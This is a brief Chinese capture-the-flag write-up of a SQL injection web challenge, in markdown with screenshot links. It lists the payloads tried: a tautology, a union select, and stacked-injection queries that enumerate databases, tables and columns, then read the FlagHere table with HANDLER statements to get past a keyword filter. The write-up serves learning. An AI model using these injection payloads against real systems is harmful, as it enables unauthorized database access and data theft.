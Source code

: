 ![[Pasted image 20221104194310.png]]
```sql
1' or 1=1 or '1
```
![[Pasted image 20221104194336.png]]
```sql
1' union select 1,2#
```
![[Pasted image 20221104194429.png]]

被过滤了一堆关键字呜呜呜

搜索得知这题关键为堆叠注入
```sql
1'; show databases#
```
![[Pasted image 20221104194636.png]]
```sql
1'; show tables#
```
![[Pasted image 20221104200143.png]]
```sql
1'; show columns from FlagHere#
```
![[Pasted image 20221104200444.png]]

接下来是学习时间（悲

![[Pasted image 20221104201132.png]]
```sql
0';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```
![[Pasted image 20221104201342.png]]

有点像文件句柄，学到了呜呜呜

#Web #SQL注入 #堆叠注入 